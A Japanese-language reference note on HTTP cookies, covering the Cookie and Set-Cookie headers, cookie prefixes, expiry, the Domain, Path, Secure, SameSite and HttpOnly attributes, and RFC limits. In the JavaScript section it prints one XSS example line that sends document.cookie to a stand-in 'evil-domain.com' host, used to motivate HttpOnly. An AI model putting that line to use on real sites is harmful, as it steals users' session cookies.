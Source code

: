 # 概要
Cookieについて

# 詳細

## Cookieについて
クライアント側にオフロードしていた情報をサーバ側に指定することができる仕組みです。
```
Cookie: A=aaaa; B=bbbb; C=cccc; D=dddd; E=eeee; 
```

Cookieは次のような場合に利用されます。
- セッション管理
- パーソナライズ
- トラッキング

## Set-Cookieについて
Set-Cookieはレスポンス時にクライアントに次回リクエスト時にCookieヘッダとして付与してほしい情報を応答します。
複数の値を同時に書き込むことはできないので、以下のように複数のSet-Cookieヘッダとしてレスポンスを応答することは問題ありません。
```
HTTP/2.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

Cookieの値としては次のように２つの接頭辞で始まる場合も規定されています。
```
Set-Cookie: __Secure-hoge=fuga
Set-Cookie: __Host-hoge=fuga
```

- __Secure-:
  - secureフラグを設定することが必要で、HTTPSページでなければなりません。
- __Host-:
  - secureフラグを設定してHTTPSページから読み込む必要があり、domainが指定できないのでそのドメインしか送付できず、パスが"/"で終わる必要があります。


### セッションCookie
Set-Cookieでのレスポンス時にexpiresやmax-ageを指定していない場合はセッションCookieです。
ブラウザを閉じるとその時点でCookie情報は消去されます。次の設定はセッションCookieです。
```
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

### 長期間持続Cookie
```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

### スコープ制限(Domain)
Cookieを送付しても良いDomainを指定します。
注意点としてこの属性が指定されていない場合には、そのドメインに対してCookieを送ることを意味していて、サブドメインの場合にはCookieは送付されません。
```
Set-Cookie: id=a3fWa; Domain=example.com
```

上記の例だとexample.comやxxx.example.comといったドメインでもCookie情報が送付されることになります。


### スコープ制限(Path)
このパスは絶対パスである必要があります。
```
Set-Cookie: id=a3fWa; Path=/docs
```

上記のパスの例だと次のようなURLの場合にCookie情報が送付されます。
- https://xxx.yyy.zz/docs/hoge

### スコープ制限(Secure)
この属性を付与することでhttpsの通信を使用しているときだけ、クッキーが送信されます。 
```
Set-Cookie: id=a3fWa; Secure
```

### スコープ制限(SameSite)
この属性は比較的新しい仕様です。
サーバ間にまたがったリクエストに対してCookieを送付するかどうかの主張を定義することで、CSRF攻撃を防御することができます。

- Strict, Lax, Noneの３種類があり、
```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; SameSite=Strict
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; SameSite=Lax
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; SameSite=None
```

- Strict
  - 通常のリンクを追う場合を含め、ブラウザーがすべてのサイト間閲覧コンテキストの対象サイト向けてクッキーを送信することを防ぎます。
- Lax
  - 最上位のナビゲーションでGETリクエストの場合のみ、クッキーを送信します。これはユーザーのトラッキングに効率的であるものの、多くのCSRF攻撃を防ぐことができます。
- None
  - 常にCookie情報が送付されます。例えば、第三者のサイトにxxx.co.jpの広告をiframe等で埋め込んだ際にも問題なくxxx.co.jpにxxx.co.jpが設定したCookie情報を送付することができます。

最近ではデフォルトNoneからLaxに挙動が変わるようにブラウザ側で提案されています。

### Javascript経由でCookieを生成する
以下のようにしてjavascript経由でもcookieを生成することが可能です。
```
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
```

JavaScriptで使用できるCookieは、次のようにXSSによって盗まれる可能性があります。
```
(new Image()).src = "http://www.evil-domain.com/steal-cookie?cookie=" + document.cookie;
```

javascriptでcookieの値にアクセスできなくするためにはSet-Cookie時にHttpOnly属性を付与することで回避できます。この属性はjavascript経由では設定できません。
```
Set-Cookie: yummy_cookie=choco; HttpOnly
Set-Cookie: tasty_cookie=strawberry; HttpOnly
```

## 制限
以下に制限が規定されています。
- https://tools.ietf.org/html/draft-ietf-httpbis-rfc6265bis-02#section-6

RFCで規定しているのは、
- cookie毎に少なくとも4096byte必要(name, value, attribte含む)
- ドメインごとに少なくとも50 cookie
- 最大のcookie数は3000

# 仕様書
- RFC
  - https://tools.ietf.org/html/rfc6265#section-4.1
  - https://tools.ietf.org/html/draft-ietf-httpbis-rfc6265bis-02

# 参考資料
- MDN web docs HTTP Cookie
  - https://developer.mozilla.org/ja/docs/Web/HTTP/Cookies


